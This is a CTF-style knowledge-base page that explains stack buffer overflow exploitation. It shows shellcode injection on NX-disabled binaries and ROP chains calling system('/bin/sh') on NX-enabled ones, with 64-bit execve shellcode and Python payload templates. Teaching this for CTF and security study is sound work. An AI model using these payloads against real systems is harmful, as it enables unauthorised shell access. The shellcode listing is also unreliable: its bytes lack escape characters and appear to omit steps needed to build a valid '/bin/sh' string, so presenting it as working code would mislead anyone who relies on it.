 ```yaml
---
title: ROP Chains and Shellcode Injection
parent: Protection Bypass
grand_parent: pwn
great_grand_parent: Knowledge Base
nav_order: 6
---
```


# ROP Chains and Shellcode Injection

This guide explains how to proceed based on whether the binary has **NX enabled** or **NX disabled**.

---

## Shellcode Injection (When NX is Disabled)

If NX (No-eXecute) is **disabled**, memory regions like the stack are executable.

### Exploitation Strategy

1. Overflow the buffer.
2. Inject custom shellcode onto the stack.
3. Overwrite the return address (RIP) to point to your shellcode.

### Example Shellcode (64-bit)

Execve shellcode to spawn a shell (`/bin/sh`):

```assembly
x48x31xd2                                  // xor    rdx, rdx
x48xbbxffx2fx62x69x6ex2fx73x68      // movabs rbx, 0x68732f6e69622fff
x53                                          // push   rbx
x48x89xe7                                  // mov    rdi, rsp
x50                                          // push   rax
x57                                          // push   rdi
x48x89xe6                                  // mov    rsi, rsp
xb0x3b                                      // mov    al, 0x3b
x0fx05                                      // syscall
```

### Payload Layout

```
[ padding to overflow buffer ]
[ shellcode ]
[ padding to reach RIP ]
[ stack address pointing to shellcode ]
```

Example Payload:
```python
payload = b"A" * offset
payload += shellcode
payload += b"B" * (rip_offset - len(shellcode))
payload += p64(shellcode_address)
```

---

## ROP Chain (When NX is Enabled)

If NX is **enabled**, the stack cannot be executed — you cannot jump to shellcode. You must reuse existing executable code (ROP).

### Exploitation Strategy

1. Find a leak to get libc or binary base address.
2. Find useful gadgets (`pop rdi; ret`, etc.).
3. Build a ROP chain to call `system("/bin/sh")`.

### Common Gadgets (64-bit)

- `pop rdi; ret` — to set up the first argument in `rdi`.
- Addresses of `system` and `"/bin/sh"` in libc.

### Typical ROP Payload

```
[ padding to overflow buffer ]
[ pop rdi; ret gadget address ]
[ address of "/bin/sh" string ]
[ address of system() function ]
```

Example:
```python
payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

---

## Notes

- **NX disabled**: Use shellcode — easy.
- **NX enabled**: Use ROP chains — requires libc or binary leak.
- **64-bit ROP**: Arguments passed in registers (rdi, rsi, rdx).
- **32-bit ROP**: Arguments passed on the stack — different calling convention.

For information on how to leak libc addresses, see [Infoleak Techniques](infoleak.md).
